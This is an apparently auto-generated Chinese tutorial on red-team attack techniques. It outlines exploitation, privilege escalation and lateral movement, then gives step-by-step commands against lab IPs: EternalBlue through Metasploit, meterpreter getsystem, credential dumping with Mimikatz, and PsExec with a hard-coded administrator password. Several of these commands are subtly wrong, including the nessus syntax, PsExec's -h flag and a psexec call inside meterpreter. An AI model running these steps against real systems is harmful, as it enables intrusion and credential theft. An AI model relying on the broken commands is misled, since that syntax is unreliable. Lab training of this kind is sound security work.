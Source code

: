 # 红蓝对抗自动化平台的攻击技术

## 1. 技术原理解析

红蓝对抗自动化平台是一种模拟真实网络攻击和防御的工具，旨在通过自动化手段提高安全团队的响应能力和攻击检测能力。攻击技术是红蓝对抗中的核心部分，主要包括漏洞利用、权限提升、横向移动等。

### 1.1 漏洞利用

漏洞利用是攻击技术的基础，通常包括以下几个步骤：

1. **信息收集**：通过扫描工具（如Nmap、Masscan）收集目标系统的信息，包括开放端口、服务版本等。
2. **漏洞扫描**：使用漏洞扫描工具（如Nessus、OpenVAS）识别目标系统中的已知漏洞。
3. **漏洞利用**：利用漏洞利用框架（如Metasploit、Cobalt Strike）对目标系统进行攻击。

### 1.2 权限提升

权限提升是指攻击者在成功入侵系统后，通过利用系统漏洞或配置错误，获取更高权限的过程。常见的权限提升技术包括：

1. **本地漏洞利用**：利用本地漏洞（如Dirty COW、CVE-2021-4034）提升权限。
2. **配置错误利用**：利用系统配置错误（如弱密码、未授权访问）提升权限。

### 1.3 横向移动

横向移动是指攻击者在成功入侵一个系统后，通过该系统进一步入侵其他系统的过程。常见的横向移动技术包括：

1. **凭证窃取**：通过工具（如Mimikatz、LaZagne）窃取系统凭证。
2. **远程执行**：利用远程执行工具（如PsExec、WMI）在其他系统上执行命令。

## 2. 变种和高级利用技巧

### 2.1 漏洞利用变种

1. **无文件攻击**：通过内存注入技术（如PowerShell、Reflective DLL Injection）执行恶意代码，避免在磁盘上留下痕迹。
2. **供应链攻击**：通过篡改软件供应链（如依赖库、安装包）传播恶意代码。

### 2.2 权限提升变种

1. **内核漏洞利用**：利用内核漏洞（如CVE-2021-3156）提升权限，绕过用户层防护。
2. **容器逃逸**：利用容器漏洞（如CVE-2019-5736）逃逸容器环境，获取宿主机权限。

### 2.3 横向移动变种

1. **Pass-the-Hash**：通过窃取的哈希值（如NTLM哈希）进行身份验证，绕过密码验证。
2. **Golden Ticket**：通过伪造Kerberos票据（如Golden Ticket）获取域管理员权限。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建

1. **虚拟机环境**：使用VMware或VirtualBox搭建多个虚拟机，包括攻击机（Kali Linux）和目标机（Windows、Linux）。
2. **网络配置**：配置虚拟机的网络为桥接模式，确保攻击机和目标机在同一网络段。
3. **工具安装**：在攻击机上安装常用工具（如Nmap、Metasploit、Mimikatz）。

### 3.2 攻击步骤

1. **信息收集**：
   ```bash
   nmap -sV -O 192.168.1.0/24
   ```
2. **漏洞扫描**：
   ```bash
   nessus -T html -o report.html 192.168.1.100
   ```
3. **漏洞利用**：
   ```bash
   msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS 192.168.1.100
   exploit
   ```
4. **权限提升**：
   ```bash
   meterpreter > getsystem
   ```
5. **横向移动**：
   ```bash
   meterpreter > run post/windows/gather/credentials/mimikatz
   meterpreter > psexec -u Administrator -p Password123 -h 192.168.1.101 cmd.exe
   ```

## 4. 实际命令、代码或工具使用说明

### 4.1 Nmap

```bash
nmap -sV -O 192.168.1.0/24
```
- `-sV`：版本探测。
- `-O`：操作系统探测。

### 4.2 Metasploit

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
exploit
```
- `use`：选择漏洞利用模块。
- `set`：设置目标主机。
- `exploit`：执行漏洞利用。

### 4.3 Mimikatz

```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
- `privilege::debug`：提升权限。
- `sekurlsa::logonpasswords`：窃取凭证。

### 4.4 PsExec

```bash
psexec -u Administrator -p Password123 -h 192.168.1.101 cmd.exe
```
- `-u`：用户名。
- `-p`：密码。
- `-h`：目标主机。

## 结论

红蓝对抗自动化平台的攻击技术是网络安全领域的重要组成部分，通过深入理解其技术原理和高级利用技巧，可以有效提升安全团队的防御能力。本文提供了详细的技术解析、攻击步骤和实验环境搭建指南，帮助读者在实际环境中进行演练和测试。

---

*文档生成时间: 2025-03-17 14:15:25*

